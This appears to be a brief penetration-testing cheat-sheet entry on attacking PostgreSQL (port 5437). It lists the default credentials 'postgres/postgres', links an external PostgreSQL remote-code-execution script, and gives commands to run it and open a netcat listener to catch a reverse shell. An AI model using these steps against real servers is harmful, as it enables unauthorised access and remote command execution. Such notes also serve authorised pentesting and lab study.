 # ,5437 - Postgres

Default creds:

<table><thead><tr><th></th><th></th><th data-hidden></th></tr></thead><tbody><tr><td>postgres</td><td>postgres</td><td></td></tr><tr><td></td><td></td><td></td></tr><tr><td></td><td></td><td></td></tr></tbody></table>

Command execution:

{% embed url="https://github.com/squid22/PostgreSQL_RCE/blob/main/postgresql_rce.py" %}

```
python3 postgresql_rce.py
nc -lvnp 80
```
